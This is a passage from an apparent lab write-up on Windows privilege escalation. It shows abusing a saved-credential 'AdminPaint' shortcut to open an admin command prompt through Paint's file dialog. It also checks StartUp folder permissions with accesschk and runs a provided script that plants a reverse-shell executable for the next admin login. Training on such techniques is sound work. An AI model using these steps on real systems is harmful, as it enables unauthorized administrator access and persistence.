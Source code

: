 For this, we can just simply use the remmina instance we've been using. There's an application shortcut on the desktop called _AdminPaint_. When we right click on it and check it's properties, we notice it's got SYSTEM privileges. This can be deduced from the contents of the `Target` field:

```txt
C:\Windows\System32\runas.exe /user:admin /savecred %windir%\system32\mspaint.exe
```

Furthermore, when we try and normally open it, we can inspect the process using tasklist:

![](adminpaint-process.png)

Sure enough, it's runnig as admin. The simplest approach is to just click on _File_ followed by _Open_ (in paint) and, navigate to and select `C:/windows/system32/cmd.exe`. This will spawn a command prompt window with admin privileges.


### Startup Apps

For this task, we'll start off with checking access for `StartUp`:

```console
C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```

Since `RW BUILTIN\Users` is on the list, we have read-write access. There's a pre-provided script that'll create a shortcut for `reverse.exe` in the StartUp Directory. So when the admin will log into the machine, we'll receive a reverse shell connection.

```console
C:\Users\user> cscript C:\PrivEsc\CreateShortcut.vbs
```

### Token Impersonation - Rogue Potato
